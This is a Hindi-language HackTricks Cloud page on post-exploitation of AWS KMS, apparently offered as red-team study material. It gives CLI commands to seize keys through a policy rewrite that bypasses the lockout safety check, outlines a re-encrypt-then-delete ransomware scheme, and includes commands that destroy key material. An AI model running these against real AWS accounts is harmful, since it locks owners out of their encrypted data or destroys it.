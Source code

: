 # AWS - KMS पोस्ट एक्सप्लॉइटेशन

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* हैकिंग ट्रिक्स साझा करें और [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}

## KMS

अधिक जानकारी के लिए देखें:

{% content-ref url="../aws-services/aws-kms-enum.md" %}
[aws-kms-enum.md](../aws-services/aws-kms-enum.md)
{% endcontent-ref %}

### जानकारी एन्क्रिप्ट/डिक्रिप्ट करें

`fileb://` और `file://` AWS CLI कमांड में स्थानीय फ़ाइलों के पथ को निर्दिष्ट करने के लिए उपयोग किए जाने वाले URI स्कीम हैं:

* `fileb://:` फ़ाइल को बाइनरी मोड में पढ़ता है, जो आमतौर पर गैर-टेक्स्ट फ़ाइलों के लिए उपयोग किया जाता है।
* `file://:` फ़ाइल को टेक्स्ट मोड में पढ़ता है, जो आमतौर पर सामान्य टेक्स्ट फ़ाइलों, स्क्रिप्ट, या JSON के लिए उपयोग किया जाता है जिसमें विशेष एन्कोडिंग आवश्यकताएँ नहीं होती हैं।

{% hint style="success" %}
ध्यान दें कि यदि आप किसी फ़ाइल के अंदर कुछ डेटा को डिक्रिप्ट करना चाहते हैं, तो फ़ाइल में बाइनरी डेटा होना चाहिए, न कि बेस64 एन्कोडेड डेटा। (fileb://)
{% endhint %}

* एक **संपूर्ण** कुंजी का उपयोग करना
```bash
# Encrypt data
aws kms encrypt \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--key-id f0d3d719-b054-49ec-b515-4095b4777049 \
--output text \
--query Plaintext | base64 \
--decode
```
* एक **असामान्य** कुंजी का उपयोग करना:
```bash
# Encrypt data
aws kms encrypt \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--plaintext fileb:///tmp/hello.txt \
--output text \
--query CiphertextBlob | base64 \
--decode > ExampleEncryptedFile

# Decrypt data
aws kms decrypt \
--ciphertext-blob fileb://ExampleEncryptedFile \
--encryption-algorithm RSAES_OAEP_SHA_256 \
--key-id d6fecf9d-7aeb-4cd4-bdd3-9044f3f6035a \
--output text \
--query Plaintext | base64 \
--decode
```
### KMS Ransomware

एक हमलावर जिसके पास KMS पर विशेषाधिकार प्राप्त पहुंच है, वह कुंजियों की KMS नीति को संशोधित कर सकता है और **अपने खाते को उन पर पहुंच प्रदान कर सकता है**, वैध खाते को दी गई पहुंच को हटा सकता है।

फिर, वैध खाते के उपयोगकर्ता उन कुंजियों के साथ एन्क्रिप्ट की गई किसी भी सेवा की कोई जानकारी तक पहुंच नहीं पा सकेंगे, जिससे खाते पर एक आसान लेकिन प्रभावी रैंसमवेयर बन जाएगा।

{% hint style="warning" %}
ध्यान दें कि **AWS प्रबंधित कुंजियाँ इस हमले से प्रभावित नहीं हैं**, केवल **ग्राहक प्रबंधित कुंजियाँ**।

यह भी ध्यान दें कि पैरामीटर **`--bypass-policy-lockout-safety-check`** का उपयोग करना आवश्यक है (वेब कंसोल में इस विकल्प की कमी इस हमले को केवल CLI से संभव बनाती है)।
{% endhint %}
```bash
# Force policy change
aws kms put-key-policy --key-id mrk-c10357313a644d69b4b28b88523ef20c \
--policy-name default \
--policy file:///tmp/policy.yaml \
--bypass-policy-lockout-safety-check

{
"Id": "key-consolepolicy-3",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::<your_own_account>:root"
},
"Action": "kms:*",
"Resource": "*"
}
]
}
```
{% hint style="danger" %}
ध्यान दें कि यदि आप उस नीति को बदलते हैं और केवल एक बाहरी खाते को पहुंच देते हैं, और फिर इस बाहरी खाते से आप एक नई नीति सेट करने की कोशिश करते हैं **जिससे मूल खाते को फिर से पहुंच मिले, तो आप सक्षम नहीं होंगे**।
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

### Generic KMS Ransomware

#### Global KMS Ransomware

एक वैश्विक KMS Ransomware करने का एक और तरीका है, जिसमें निम्नलिखित चरण शामिल होंगे:

* एक नया **की बनाएं जिसमें हमलावर द्वारा आयातित की सामग्री हो**
* **पुराने डेटा को फिर से एन्क्रिप्ट करें** जो पिछले संस्करण के साथ एन्क्रिप्ट किया गया था, नए के साथ।
* **KMS की को हटाएं**
* अब केवल हमलावर, जिसके पास मूल की सामग्री है, एन्क्रिप्टेड डेटा को डिक्रिप्ट करने में सक्षम होगा

### Destroy keys
```bash
# Destoy they key material previously imported making the key useless
aws kms delete-imported-key-material --key-id 1234abcd-12ab-34cd-56ef-1234567890ab

# Schedule the destoy of a key (min wait time is 7 days)
aws kms schedule-key-deletion \
--key-id arn:aws:kms:us-west-2:123456789012:key/1234abcd-12ab-34cd-56ef-1234567890ab \
--pending-window-in-days 7
```
{% hint style="danger" %}
ध्यान दें कि AWS अब **पिछले कार्यों को क्रॉस अकाउंट से करने से रोकता है:**
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
